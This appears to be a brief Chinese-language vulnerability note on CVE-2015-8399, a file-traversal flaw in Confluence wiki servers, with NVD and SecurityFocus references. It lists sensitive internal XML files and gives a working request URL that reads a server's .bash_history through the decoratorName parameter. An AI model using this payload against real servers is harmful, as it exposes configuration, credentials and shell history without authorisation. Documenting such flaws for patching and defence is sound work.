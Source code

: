 ##cve编号：CVE-2015-8399 

##漏洞名称：文件遍历
##漏洞类型：文件遍历
##影响版本：
- apache/jboss/jetbrains/delphix等多家机构Wiki服务器
- ​
##利用脚本：

##漏洞细节：
- 敏感xml文件
  - /WEB-INF/decorators.xml
  - /WEB-INF/glue-config.xml
  - /WEB-INF/server-config.wsdd
  - /WEB-INF/sitemesh.xml
  - /WEB-INF/urlrewrite.xml
  - /WEB-INF/web.xml
  - /databaseSubsystemContext.xml
  - /securityContext.xml
  - /services/statusServiceContext.xml
  - com/atlassian/confluence/security/SpacePermission.hbm.xml
  - com/atlassian/confluence/user/OSUUser.hbm.xml
  - com/atlassian/confluence/security/ContentPermissionSet.hbm.xml
  - com/atlassian/confluence/user/ConfluenceUser.hbm.xml
- 访问链接:`url/spaces/viewdefaultdecorator.action?decoratorName=file:///home/confluence/.bash_history`
- 
##reference：
- [NVD](https://nvd.nist.gov/vuln/detail/CVE-2015-8399)
- [securityfocus](http://www.securityfocus.com/archive/1/archive/1/537232/100/0/threaded)
